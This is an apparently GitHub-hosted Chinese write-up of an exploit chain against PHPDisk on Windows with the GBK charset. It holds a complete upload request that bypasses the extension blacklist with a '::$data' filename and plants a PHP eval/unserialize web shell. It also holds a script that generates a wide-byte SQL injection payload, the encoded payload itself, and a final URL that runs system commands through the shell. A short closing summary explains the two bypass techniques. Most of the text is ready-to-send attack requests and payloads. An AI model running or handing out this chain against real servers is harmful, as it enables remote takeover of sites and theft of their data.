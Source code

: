 # phpdisk sql注入(gbk)&前台getshell（win&gbk）

## 判断系统与版本

```
http://test.test.com/AjaX.php  

http://test.test.com/  gbk
```

## ::data上传

```
POST /mydisk.php?item=upload&is_public=0&cate_id=0&subcate_id=0&folder_node=0&folder_id=-1&uid=1 HTTP/1.1
Accept: text/*
Content-Type: multipart/form-data; boundary=----------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
User-Agent: Shockwave Flash
Host: test.test.com
Content-Length: 906
Proxy-Connection: Keep-Alive
Pragma: no-cache


------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
Content-Disposition: form-data; name="Filename"

shell.jpg
------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
Content-Disposition: form-data; name="desc11"

desc112
------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
Content-Disposition: form-data; name="task"

doupload
------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
Content-Disposition: form-data; name="file_id"

0
------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
Content-Disposition: form-data; name="upload_file"; filename="shell.php::$data"
Content-Type: application/octet-stream


<?php
class foo{
    public $data;
    function __destruct()
    {
        eval($this->data);
    }
}
$file_name=$_GET['id'];
unserialize($file_name);
?>
------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3
Content-Disposition: form-data; name="Upload"

Submit Query
------------cH2gL6Ij5ei4ei4cH2gL6Ij5ae0GI3--

```


## 注入获取路径

```
<?php
echo base64_encode(serialize(array("file_id"=>"2333","file_name"=>"錦',`in_share`=1,`file_description`=(select x.a from (select concat(file_store_path,file_real_name)a from pd_files where file_name=0x7368656c6c)x)#")))

//YToyOntzOjc6ImZpbGVfaWQiO3M6NDoiMjMzMyI7czo5OiJmaWxlX25hbWUiO3M6MTQ4OiLpjKYnLGBpbl9zaGFyZWA9MSxgZmlsZV9kZXNjcmlwdGlvbmA9KHNlbGVjdCB4LmEgZnJvbSAoc2VsZWN0IGNvbmNhdChmaWxlX3N0b3JlX3BhdGgsZmlsZV9yZWFsX25hbWUpYSBmcm9tIHBkX2ZpbGVzIHdoZXJlIGZpbGVfbmFtZT0weDczNjg2NTZjNmMpeCkjIjt9
?>

```


```

http://test.test.com/ajax.php?action=uploadCloud

data=YToyOntzOjc6ImZpbGVfaWQiO3M6NDoiMjMzMyI7czo5OiJmaWxlX25hbWUiO3M6MTQ4OiLpjKYnLGBpbl9zaGFyZWA9MSxgZmlsZV9kZXNjcmlwdGlvbmA9KHNlbGVjdCB4LmEgZnJvbSAoc2VsZWN0IGNvbmNhdChmaWxlX3N0b3JlX3BhdGgsZmlsZV9yZWFsX25hbWUpYSBmcm9tIHBkX2ZpbGVzIHdoZXJlIGZpbGVfbmFtZT0weDczNjg2NTZjNmMpeCkjIjt9
```

## getshell

```
http://test.test.com/viewfile.php?file_id=2333

2019/08/08/ca14aabe6bc8a343df6d596070568e1a


http://test.test.com/filestores/2019/08/08/ca14aabe6bc8a343df6d596070568e1a.php?id=O:3:%22foo%22:1:{s:4:%22data%22;s:17:%22system(%27whoami%27);%22;}
```

## 总结

本次漏洞有两个有趣的点：
1.windwos下文件上传黑名单策略的::$data绕过
2.utf转gbk情形下的sql宽字节注入：“錦”这个字，它的utf-8编码是0xe98ca6，它的gbk编码是0xe55c而后面的'被addslashes变成了%5c%27，这样组合起来就是%e5%5c%5c%27，两个%5c就是\，正好把反斜杠转义了，导致’逃逸出单引号，产生注入。

## refer


https://xz.aliyun.com/t/55940
https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html
